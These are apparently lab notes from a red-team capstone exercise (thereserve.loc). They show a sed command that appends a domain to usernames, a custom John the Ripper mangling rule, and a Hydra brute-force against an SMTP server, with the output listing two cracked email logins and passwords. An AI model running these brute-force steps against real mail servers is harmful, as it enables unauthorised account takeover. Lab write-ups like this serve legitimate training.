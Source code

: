 
### Domain
Add domain to end of every [[Website web.thereserve.loc#Create a file with the names (users.txt)]]
```
sed -i 's/$/@corp.thereserve.loc/' users.txt
```

### Custom rules
- Add the following to the bottom of john.conf.
```
	#Custom Rules

	[List.Rules:Capstone]

	Az"[0-9]" $[!@#%^]
```

- Run the following command to create a mangled passwords file.
```
	john --wordlist=password_base_list.txt --rules=Capstone --stdout > mangled-passwords.txt

```

### HYDRA
Getting some email's credentials .
```
hydra -L users.txt -P mangled-passwords.txt smtp://10.200.103.11 -V -o smtp-results.txt

cat smtp-results.txt
```
[25][smtp] host: 10.200.103.11   
login: laura.wood@corp.thereserve.loc   
password: Password1@

[25][smtp] host: 10.200.103.11   
login: mohammad.ahmed@corp.thereserve.loc   
password: Password1!
